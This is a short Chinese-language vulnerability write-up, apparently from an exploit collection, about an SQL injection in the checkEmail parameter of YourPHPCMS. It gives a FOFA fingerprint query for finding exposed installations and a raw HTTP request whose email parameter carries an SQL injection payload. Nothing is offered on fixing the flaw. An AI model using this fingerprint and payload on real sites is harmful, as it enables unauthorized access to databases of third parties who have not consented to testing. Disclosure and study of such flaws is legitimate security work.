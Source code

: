 # YourPHPCMS系统Register_checkEmail存在sql注入漏洞
YourPHPCMS login_checkEmail存在sql注入漏洞

## fofa
```rust
header="YP_onlineid"
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1732274946081-2fa7b36f-5b27-464c-899e-b80b63981e17.png)

## poc
```rust
GET /index.php?g=User&m=Register&a=checkEmail&userid=1&email=-69710348@nwcrb.com'+or+'1'='2" HTTP/1.1
Host: 
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate, br, zstd
```

![](https://cdn.nlark.com/yuque/0/2024/png/29512878/1732274798163-92c86972-4ab2-45b1-8ed0-efdd82c98664.png)

